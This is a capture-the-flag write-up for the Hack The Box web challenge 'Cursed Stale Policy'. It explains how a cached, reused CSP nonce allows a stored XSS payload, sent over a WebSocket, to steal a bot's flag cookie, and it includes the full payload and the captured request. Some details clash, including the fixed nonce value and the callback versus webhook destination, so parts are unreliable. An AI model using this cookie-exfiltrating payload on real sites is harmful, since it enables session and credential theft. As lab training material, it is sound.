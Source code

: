 ```yaml
---
clayout: ctf
title: Cursed Stale Policy
date: 2024-12-27
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Cursed Stale Policy
      link: https://app.hackthebox.com/challenges/811
      thumbnail: /ctf/hack-the-box/challenges/web/cursed-stale-policy/thumbnail.gif
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/811
          thumbnail: /ctf/hack-the-box/challenges/web/cursed-stale-policy/pwned.png
---
```


## Challenge Description

Spying time. Check what all users have been up to with this Challenge recently.

## Challenge Overview

In this web challenge, the web application includes functionality that leverages user-provided inputs and interacts with
a bot to validate and process specific behaviors. Upon navigating the application, we observe a page with the ability to
send inputs that are reflected within the application context. Additionally, a Content Security Policy (CSP) header is
enforced to prevent certain classes of script-based attacks.

A notable endpoint is `/ws`, which serves as a WebSocket interface for interacting with the server. The server's
functionality hints at integration with a bot that periodically processes inputs, such as scripts embedded within the
application.

![Cursed Stale Policy - Overview](/ctf/hack-the-box/challenges/web/cursed-stale-policy/overview.png)

## Code Review

Upon reviewing the source code, we identify several crucial components:

### Content Security Policy (CSP)

```js
export async function getCachedCSP() {
    let cachedCSP = await redis.get("cachedCSPHeader");

    if (cachedCSP) {
        return cachedCSP; // TOOD: Should we cache the CSP header?
    } else {
        const nonce = crypto.randomBytes(16).toString("hex");
        const cspWithNonce = `default-src 'self'; script-src 'self' 'nonce-${nonce}'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; object-src 'none'; base-uri 'none'; report-uri /csp-report`;

        await redis.set("cachedCSPHeader", cspWithNonce);

        return cspWithNonce;
    }
}
```

In the above code we see this line:

```js
const nonce = crypto.randomBytes(16).toString("hex");
```

Who generates a random nonce for the first time and caches it in the Redis database. This nonce is then used in the CSP
header to allow only scripts with the matching attribute to execute.

The generate `nonce` value is given in the index page as shown below:

![Cursed Stale Policy - nonce](/ctf/hack-the-box/challenges/web/cursed-stale-policy/nonce.png)

### WebSocket Functionality

The WebSocket handler (`websocket.js`) allows sending structured messages. Of particular interest is the `trigger_xss`
message type, which adds user-provided payloads to a queue for subsequent execution by the bot. This mechanism is
designed to evaluate scripts and validate specific functionality.

### Bot Behavior

The bot (`bot.js`) operates as follows:

1. Visits the `/xss` endpoint to execute XSS payloads fetched from Redis.
2. Includes a cookie containing the contents of `flag.txt` as a `flag` value when executing scripts.
3. Executes the provided payload, enabling potential exfiltration of sensitive data.

These components reveal that while CSP is designed to mitigate XSS attacks, the presence of the `trigger_xss` queue
creates an opportunity to exploit a stored XSS vulnerability if a valid payload adheres to CSP constraints.

## Exploitation

### Objective

Leverage the bot's behavior to retrieve the contents of `flag.txt` by bypassing the CSP.

### CSP Constraints Analysis

The CSP header requires all scripts to include a `nonce` attribute with the value `rAnd0m123` to execute. This
constraint prevents traditional inline script-based attacks but still allows exploitation if the `nonce` is included in
the payload.

### Exploitation Steps

#### Step 1: Crafting the Payload

**Payload:**

```html

<script nonce='rAnd0m123'>
    fetch('/callback', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ cookies: document.cookie })
    });
</script>
```

This payload who be executed by the bot and send the cookies to the `/callback` endpoint. The `nonce` attribute is
included to bypass the CSP constraints.

#### Step 2: Injecting the Payload

To inject the payload, send the following WebSocket message to the `/ws` endpoint:

```json
{
    "type": "trigger_xss",
    "payload": "<script nonce='rAnd0m123'>fetch('/callback', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ cookies: document.cookie })});</script>"
}
```

Using **Burp Suite Repeater**, send this payload to the WebSocket endpoint. This message queues the payload for the bot
to execute.

#### Step 3: Observing the Results

Once the payload is executed by the bot, the flag will be sent to the WebHook URL specified in the payload.

Example response in the WebHook site:

```json
{
    "type": "update_logs",
    "payload": [
        {
            "method": "POST",
            "headers": {
                "host": "127.0.0.1:8000",
                "connection": "keep-alive",
                "content-length": "101",
                "user-agent": "HackTheBoo/20.24 (Cursed; StalePolicy) CSPloitCrawler/1.1",
                "content-type": "application/json",
                "accept": "*/*",
                "origin": "http://127.0.0.1:8000",
                "sec-fetch-site": "same-origin",
                "sec-fetch-mode": "cors",
                "sec-fetch-dest": "empty",
                "referer": "http://127.0.0.1:8000/xss",
                "accept-encoding": "gzip, deflate, br, zstd",
                "accept-language": "en-US,en;q=0.9",
                "cookie": "flag=HTB{f4k3_fl4g_f0r_t35t1ng}"
            },
            "args": {},
            "data": {
                "flag": "{\"message\":\"Route GET:/flag.txt not found\",\"error\":\"Not Found\",\"statusCode\":404}"
            },
            "time": "2024-12-26T18:15:15.459Z"
        }
    ]
}
```

We successfully retrieved the fake flag:

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We can now use the same technique to get the real flag.

## Reference

- [Content Security Policy (CSP) Documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Puppeteer Documentation](https://pptr.dev/)
- [WebSocket Basics](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API)
- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

![Cursed Stale Policy - favicon](/ctf/hack-the-box/challenges/web/cursed-stale-policy/favicon.png){style="width: 250px; height: 250px; display: block; margin: 0 auto;"} 
